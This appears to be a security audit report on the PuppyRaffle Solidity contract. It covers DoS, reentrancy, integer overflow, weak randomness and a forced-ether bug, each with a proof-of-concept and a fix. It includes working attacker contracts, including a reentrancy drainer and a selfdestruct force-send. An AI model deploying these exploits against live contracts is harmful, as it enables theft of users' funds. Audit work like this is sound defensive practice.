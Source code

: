 ### [H-1] Looping through players array to check for duplicates in `PuppyRaffle::enterRaffle()` is a potential DoS attack, incrementing gas costs for future entrants

**Description:** The `PuppyRaffle::enterRaffle()` function loops through the `players` array to check for duplicates. However, the longer the `PuppyRaffle::players` array is, the more gas costs for future entrants. Every additional address in the `players` array is an additional check the loop have to make.
```javascript
 @>     for (uint256 i = 0; i < players.length - 1; i++) {
            for (uint256 j = i + 1; j < players.length; j++) {
                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
            }
        }
```

**Impact:** The gas costs for raffle entrants will greatly increase as more players enter the raffle. Discouraging later users  from entering, and causing a rush at the start of a raffle to be one of the first to enter.

An attacker might make the `PuppyRaffle::players` array so big, that no one else enters, guarenteeing themselves the win.

**Proof of Concept:**

if we have 2 sets of 100 players enter, the gas costs will be as such: 
- 1st 100 players: ~6252037 gas
- 2nd 100 players: ~20376508 gas

<details> 
<summary>PoC</summary>
Place the folowing test into `PuppyRaffleTest.t.sol`

```javascript
 function test_denialOfService() public {
        vm.txGasPrice(1);
        address USER = makeAddr("user");
        vm.deal(USER, 1000000 ether);
        uint256 numPlayers = 200;
        address[] memory newPlayers = new address[](numPlayers);

        for (uint256 i = 0; i < numPlayers; i++) {
            newPlayers[i] = address(i);
        }

        uint256 gasStart = gasleft();

        puppyRaffle.enterRaffle{value: entranceFee * numPlayers}(newPlayers);

        uint256 gasEnd = gasleft();
        uint256 gasUsed = gasStart - gasEnd;
        console.log(gasUsed);

    }

```
</details>

**Likelihood:** High,

**Recommended Mitigation:** There are a few recommendations.

1. Consider allowing duplicates. Users can make new wallet addresses anyways, so a duplicate check doesn't prevent the same person from entering multiple times, only the same wallet address.
2. Consider using a mapping to check for duplicates. This would allow constant time lookup of whether a wallet has already entered.

```diff
+ uint256 public raffleID;
+ mapping (address => uint256) public usersToRaffleId;
.
.
    function enterRaffle(address[] memory newPlayers) public payable {
        require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");

        for (uint256 i = 0; i < newPlayers.length; i++) {
+           // Check for duplicates
+           require(usersToRaffleId[newPlayers[i]] != raffleID, "PuppyRaffle: Already a participant");

            players.push(newPlayers[i]);
+           usersToRaffleId[newPlayers[i]] = raffleID;
        }

-       // Check for duplicates
-       for (uint256 i = 0; i < players.length - 1; i++) {
-           for (uint256 j = i + 1; j < players.length; j++) {
-               require(players[i] != players[j], "PuppyRaffle: Duplicate player");
-           }
-       }

        emit RaffleEnter(newPlayers);
    }
.
.
.

function selectWinner() external {
        //Existing code
+    raffleID = raffleID + 1;        
    }

```


### [H-2] Reentrancy in `PuppyRaffle::refund()`. Attacker can drain all the funds from the contract. 


**Description:** The `PuppyRaffle::refund()` function doesn't follow CEI (Checks, Effects, Interactions) pattern. A malicious actor can exploit this by creating a contract with a fallback/receive function that calls `refund()` again when receiving ETH, allowing them to repeatedly withdraw funds before their player status is removed. This can continue until the contract's balance is drained.

```javascript

    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");

        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");
    
  @>    payable(msg.sender).sendValue(entranceFee);

        players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
    }
```

**Impact:** An attacker can drain all ETH from the contract, stealing funds from other participants and making the raffle system inoperable.


**Proof of Concept:**

<details> 
<summary>PoC</summary>
Place the folowing test into `PuppyRaffleTest.t.sol`

```javascript

//SPDX-License-Identifier: MIT;

pragma solidity ^0.7.6;

import {PuppyRaffle} from "../../src/PuppyRaffle.sol";


contract ReentrancyAttacker {
    PuppyRaffle target;
    uint256 playerIndex;

    constructor(address _target) payable {
        target = PuppyRaffle(_target);
    }
    
    function attack() public {
        address[] memory players = new address[](1);
        players[0] = address(this);
        target.enterRaffle{value: target.entranceFee()}(players);
        playerIndex = target.getActivePlayerIndex(address(this));
        target.refund(playerIndex);
    }

    receive() external payable {
        if (address(target).balance >= 1 ether) {
            target.refund(playerIndex);
        }
    }
}

```
</details>


**Recommended Mitigation:** Update the `refund()` function to follow the CEI pattern by moving the state changes before the external call:

```diff

    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");

        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

+       players[playerIndex] = address(0);
    
        payable(msg.sender).sendValue(entranceFee);

-       players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
    }

```

In that case we first remove the player from the `players` array, then we send the ETH to the player, it will protect the contract from reentrancy.


### [H-3] Integer overflow vulnerability in `PuppyRaffle::totalFees` allows fees to be reset

**Description:** In Solidity versions prior to 0.8.0, arithmetic operations can overflow/underflow without reverting. The `PuppyRaffle` contract uses Solidity 0.7.6 and declares `totalFees` as a `uint64`, which can only store values up to 2^64 - 1 (18,446,744,073,709,551,615). 

When `totalFees` exceeds this maximum value, it will overflow and reset to 0, causing loss of fee accounting and allowing attackers to potentially steal fees that should be reserved for the contract owner.

```javascript
contract PuppyRaffle {
    uint64 public totalFees = 0;
    ...
}
```

**Impact:** The contract owner could lose fee revenue when `totalFees` overflows if totalfees greater than 18,446,744,073,709,551,615.(~18.5 ethers)

**Proof of Concept:**
1. `totalFees` starts at 0
2. After many raffle entries, `totalFees` approaches the uint64 maximum (2^64 - 1)
3. One more raffle entry causes `totalFees` to overflow back to 0
4. All accumulated fees are effectively lost from an accounting perspective

```javascript
    uint64 totalFees = 18446744073709551615;
    totalFees = totalFees + 1;
    console.log(totalFees);
    // result is 0
``` 

**Recommended Mitigation:** Change `totalFees` to use `uint256` instead of `uint64` to prevent overflow:

```diff
contract PuppyRaffle {
-    uint64 public totalFees = 0;
+    uint256 public totalFees = 0;
}
```

Alternatively, upgrade to Solidity 0.8.0 or later which includes built-in overflow protection.


### [H-4] `PuppyRaffle::selectWinner()` weakly randomizes the winner selection

**Description:** The use of keccak256 hash functions on predictable values like block.timestamp, block.number, or similar data, including modulo operations on these values, should be avoided for generating randomness, as they are easily predictable and manipulable. The PREVRANDAO opcode also should not be used as a source of randomness. Instead, utilize Chainlink VRF for cryptographically secure and provably random values to ensure protocol integrity.

**Impact:** Weak randomization can lead to predictable winner selection, potentially allowing an attacker to manipulate the outcome of the raffle.


### [H-5] WithdrawFees can be broken if someone sends some eth to the contract

**Description:** The `PuppyRaffle::withdrawFees()` function checks if the contract balance is equal to `totalFees`. If someone sends some eth to the contract, it will break the withdrawFees function.

**Impact:** The owner can't withdraw the fees.

**Proof of Concept:**

<details> 
<summary>PoC</summary>
Here is the attacker contract that will send some eth to the puppyRaffle contract while selfdestructing.

```javascript
//SPDX-License-Identifier: MIT;

pragma solidity ^0.7.6;

import {PuppyRaffle} from "../../src/PuppyRaffle.sol";


contract WithdrawFeesAttacker {
    PuppyRaffle target;


    constructor(address _target) payable {
        target = PuppyRaffle(_target);
    }

    function attack() public {
        selfdestruct(payable(address(target)));
    }
}

```
</details>


**Recommended Mitigation:** change the logic of withdrawFees and maybe just withraw all the balance? Why to check if it's equal to totalFees?



### [L-1] `PuppyRaffle::withdrawFees()` it's impossible to withdraw the fees while there are players in the raffle

**Description:** The `PuppyRaffle::withdrawFees()` function checks if there are any players in the raffle, and if there are, it prevents the owner from withdrawing the fees.

**Impact:** The owner can't withdraw the fees if there are players in the raffle.

**Proof of Concept:**

```javascript
    function withdrawFees() external {
 @>     require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
        uint256 feesToWithdraw = totalFees;
        totalFees = 0;
        (bool success,) = feeAddress.call{value: feesToWithdraw}("");
        require(success, "PuppyRaffle: Failed to withdraw fees");
    }

``` 

**Recommended Mitigation:** change the logic of withdrawFees let it withdraw while there are players in the raffle.

